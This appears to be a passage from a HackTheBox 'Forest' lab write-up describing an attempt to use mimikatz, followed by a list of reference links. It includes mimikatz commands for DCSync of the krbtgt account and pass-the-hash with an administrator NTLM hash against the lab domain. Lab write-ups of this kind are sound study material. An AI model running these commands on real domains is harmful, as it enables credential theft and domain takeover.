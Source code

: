 ### 2.6.3 OR try with mimikatz.

I tried downloading and running mimikatz, but Evil-Rm was not working well with mimiktaz.  I will probably need a windows box. 
```
──(kali㉿kali)-[~/HTB/Forest/exploit]
└─$ locate mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe


lsadump::dcsync /user:krbtgt /domain:htb.local
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:administrator /domain:htb.local /ntlm:32693b11e6aa90eb43d32c72a07ceea6


```

Resource



https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md

https://05t3.github.io/posts/Active-Directory-Lab-Setup/

https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology

https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb


## HTB Pwned page
https://www.hackthebox.com/achievement/machine/288193/212

